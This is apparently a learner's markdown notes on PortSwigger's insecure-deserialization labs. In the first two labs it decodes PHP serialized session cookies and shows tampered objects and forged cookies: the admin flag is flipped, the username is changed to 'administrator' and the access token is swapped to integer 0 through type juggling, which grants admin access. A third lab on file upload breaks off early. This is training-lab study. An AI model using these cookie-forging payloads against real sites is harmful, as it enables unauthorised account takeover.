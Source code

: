 [PortSwigger Cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[PortSwigger Labs](https://portswigger.net/web-security/deserialization)

## Insecure deserialization

### Lab 01: Modifying serialized objects
[Link](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-objects)


![](imgs/2023-10-23-16-53-02.png)

![](imgs/2023-10-23-16-54-50.png)

```
Cookie: Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d

B64 Decode: O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
```

![](imgs/2023-10-23-17-04-15.png)

![](imgs/2023-10-23-16-58-15.png)

![](imgs/2023-10-23-16-58-45.png)

### Lab 02: Modifying serialized data types
[Link](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-data-types)



![](imgs/2023-10-23-17-07-16.png)

```
Cookie: Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ0aHVzYjdoeXIyd28yOTF0bGNkaWJkYmEweWoydzRjbiI7fQ%3d%3d

B64 Decode: 
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"thusb7hyr2wo291tlcdibdba0yj2w4cn";}
```

I try to put 'administrator' in the cookie

```
RAW: 
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";s:32:"thusb7hyr2wo291tlcdibdba0yj2w4cn";}
-> Cookie: 
```
![](imgs/2023-10-24-17-01-07.png)

i got an error:
![](imgs/2023-10-24-17-03-40.png)

So i imagine that there is a php script that compare the $user->access_token vs $access_token[i]. But the server doesn't check type of $user->access_token. 
-> [PHP Type Juggling Vulnerabilities](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09)

I replace the token string in the cookie with an interger.

```
RAW:
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
Cookie: Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9Cg%3D%3D
```
I have admin access.
![](imgs/2023-10-24-17-24-56.png)


![](imgs/2023-10-24-17-25-21.png)

### Lab 03: Using application functionality to exploit insecure deserialization 
[Link](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-application-functionality-to-exploit-insecure-deserialization)

![](imgs/2023-10-24-17-58-19.png)

There is an upload file functionality.
I try to upload a php file and i face an error
![](imgs/2023-10-24-18-35-53.png)

It seems that i can upload a php file replace the existing /home/carlos/avatar_upload.php file.

![](imgs/2023-10-24-18-36-54.png)

